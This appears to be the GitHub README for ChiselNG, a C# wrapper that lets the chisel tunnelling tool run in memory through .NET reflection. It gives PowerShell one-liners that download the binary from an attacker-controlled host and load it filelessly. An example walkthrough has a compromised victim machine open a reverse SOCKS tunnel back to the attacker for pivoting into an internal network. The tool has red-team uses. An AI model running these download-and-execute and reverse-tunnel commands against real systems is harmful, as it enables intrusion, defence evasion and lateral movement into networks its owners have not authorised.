

This project is essentially a C# wrapper for [chisel](https://github.com/jpillora/chisel), with the primary purpose being to enable usage from memory via .NET reflection.


---

## Usage

> [!NOTE]
> Realistically, the purpose of this tool is to be ran in memory and functionally works the same as the standard `chisel` Windows binary -- 
> meaning if you're going to execute this tool from disk, you might as well use the original.
>
> This README only covers the reflection component of `ChiselNG`. For general `chisel` usage, I recommend checking out the original work.  


```powershell
# Execute a Command
./ChiselNG.exe <command>

# Return Help Information
./ChiselNG.exe --help
```

Prior to in-memory execution, first load `ChiselNG.exe` into memory via .NET Reflection.
```powershell
# Load Binary into Memory Locally
[System.Reflection.Assembly]::LoadFile("$PWD/ChiselNG.exe")

# Load Binary into Memory Remotely
$WebClient = [System.Net.WebClient]::new()
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/ChiselNG.exe")
[System.Reflection.Assembly]::Load($DownloadData)

# Load Binary into Memory Remotely (one-liner)
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData('http(s)://<ip_addr>/ChiselNG.exe'))
```
- _Note: running a simple HTTP server is sufficient for hosting (e.g., ``python -m http.server 80``)_

Usage once loaded in memory:
```powershell
# Run Chisel Commands
[ChiselNG]::Main('<command>')
```


## Example

For this example showcase, assume the following:

| Component | IP/Port | Notes |
| --- | --- | --- |
| Attacker IP | `10.10.1.5` | Hosting the HTTP and Chisel servers. |
| Victim IP | `10.10.1.10`, `192.168.1.10` | Compromised dual NIC'd machine. |
| Target Network | `192.168.1.0/24` | Network sitting behind the compromised machine. |
| HTTP Server Port | `80` | Used to host `ChiselNG.exe`. | 
| Chisel Server Port | `8080` | Arbitrary port chosen for the server. |
| SOCKS5 Proxy Port | `1080` | Port configurable within `/etc/proxychains.conf` |

```shell
# Attacker: Host 'ChiselNG.exe' via a simple web server to be pulled later
python -m http.server 80

# Attacker: Setup chisel/chiselng server listener on an arbitrary port
./chiselng_amd64 server -p 8080 --reverse
```
```powershell
# Victim: Establish ChiselNG client tunnel callback
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData('http://10.10.1.5/ChiselNG.exe'))
[ChiselNG]::Main('client 10.10.1.5:8080 R:socks')
```
```shell
# Attacker: Tunnel commands through the SOCKS5 proxy to hit the target network
proxychains -q <command>
```

**Visual Diagram:**


## Building/Compiling
**The TL;DR for the C# wrapper process is this:**
1. Clone the latest `chisel` repository.
2. Implement CGO to allow for a C-based DLL entrypoint.
3. Compile as a Windows DLL.
4. Using `Costura.Fody`, embed the DLL into a simple C# project that just references the entrypoint in the DLL.
5. Compile and profit.

**To simply copy this repo and build from source....**
1. Run `go/helpers/compile_chisel.sh` to create 32-bit and 64-bit `chisel` DLL's in the `go/helpers/bin` directory.
2. Copy said DLL's to `chiselng/costura-win-<arch>` -- renaming them both to to `main.dll`.
3. Open up `ChiselNG.sln` in Visual Studio and build (`F6`). 

_(Note: see the lazy [INSTRUCTIONS.txt](/go/helpers/INSTRUCTIONS.txt) note in the `go/helpers` directory for other details)._

## Credits

- Of course, this project couldn't have been made without [@jpillora](https://github.com/jpillora)'s incredible work on the original **[chisel](https://github.com/jpillora/chisel)** project.
- Huge shoutout to [@shantanu](shantanu561993) for his **[SharpChisel](https://github.com/shantanu561993/SharpChisel)** project.  This project was inspired by his work.

---

## License <a name="license"></a>

- [MIT License](/LICENSE)
